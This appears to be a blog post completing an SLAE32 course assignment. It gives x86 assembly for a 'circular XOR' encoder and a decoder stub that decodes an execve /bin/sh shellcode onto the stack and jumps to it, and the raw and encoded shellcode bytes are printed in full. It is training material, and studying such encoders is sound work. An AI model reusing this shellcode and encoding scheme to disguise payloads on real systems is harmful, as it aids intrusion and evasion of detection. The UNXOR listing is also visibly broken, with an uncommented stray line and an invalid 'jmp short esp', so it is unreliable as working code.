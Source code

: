 ```yaml
---
layout: post
title:  SLAE32 Assignment 4 - custom encoder
excerpt: asm code for my encoder
---
```

this assignment has been splitted in 2 (actually 4) exercises:
1. xor.py takes a shellcode, xor it with given starting value, then xor each bytes with previous original one plus something she eventually can xor it with all valid ascii values (0,255) and inc from 1 to 9 to find valid pairing, kept in mind that both plain and encoded shellcode cannot contain null bytes
2. xor.asm does the same, in asm, but doesn't says you have to "null terminate" (read xor.py to understand). also cannot print shellcode in hex but prints it as code: you have to pipe to xxd to get the value
3. unxor.py does the reverse: takes encoded shellcode, inc and first xor and gives back the plain shellcode
4. unxor.asm does the same, in asm, but also executes the shellcode

i did the steps also in python3 to confirm that everything's ok: it's not THAT easy to debug an idea using asm :)

used shellcode is a slightly modified version of execve-stack. i remove .data section and all functions to have a straight code.
you can read it at 04_execve_stack.asm at [links](https://github.com/gulyslae/SLAE32)
python code has been committed to github as well

## XOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",
    ;               paying attention to don't have any null case (ex: 0x4142 will lead to
    ;               null bytes, i should've add 0x2).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; run just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
    
      exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; first al is hardcoded of course, now al will
    xor al, bl ; first one is hardcoded
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,bh
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; because i placed two consecutive values here (actually prev+0x1), al will be 0x00
    ; and because nobody touched edx, dl is 0x00 too
    cmp al,dl
    ;call trap
    je write_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    plainShellcode: db 0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    mlen equ $-plainShellcode
    
      write_shellcode:
    nop
    nop
    xor eax,eax
    xor ebx,ebx
    xor edx,edx
    
    mov ecx,esp
    ; write id
    mov al, 0x4
    ; write to sdout
    mov bl, 0x1
    ; shellcode len, hardcoded
    ;mov dl, 0x20
    mov dl,mlen
    ; do it
    int 0x80
    ; put in ecx 4 bytes of my shellcode
    
    call exit


## UNXOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",paying attention to don't have any null
    ;               case (ex: 0x4142 will lead to null bytes).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value, then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; runt just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; xor it
    xor al, bl
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,al
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; i know dl is 0x00 because nobody used it, as soon as al is 0x00 too
    jmp to our shellcode
    
    cmp al,dl
    je call_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    Shellcode: db 0x90,0xf2,0x91,0x39,0x46,0x1f,0x43,0x1c,0x01,0x46,0x52,0x0a,0x04,0xe6,0x69,0xb4,0xd8,0x68,0xb0,0xdd,0x6b,0x52,0xba,0xc1,0x4e,0xb0,0xf2,0x71,0xb0,0xcf,0x4e,0x81
    
      call_shellcode:
    jmp short esp


*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
